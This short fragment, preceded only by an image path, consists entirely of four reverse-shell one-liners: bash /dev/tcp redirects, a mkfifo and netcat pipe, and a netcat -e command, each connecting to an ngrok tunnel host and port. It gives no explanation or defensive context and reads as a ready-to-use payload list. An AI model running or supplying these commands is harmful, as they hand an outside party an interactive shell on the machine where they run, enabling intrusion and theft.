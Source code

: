 /bin/bash -i >& /dev/tcp/8.tcp.ngrok.io/12185 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 6.tcp.ngrok.io 19545 >/tmp/f
nc 6.tcp.ngrok.io 19545 -e /bin/bash
/bin/bash -i >& /dev/tcp/2.tcp.ngrok.io/19371 0>&1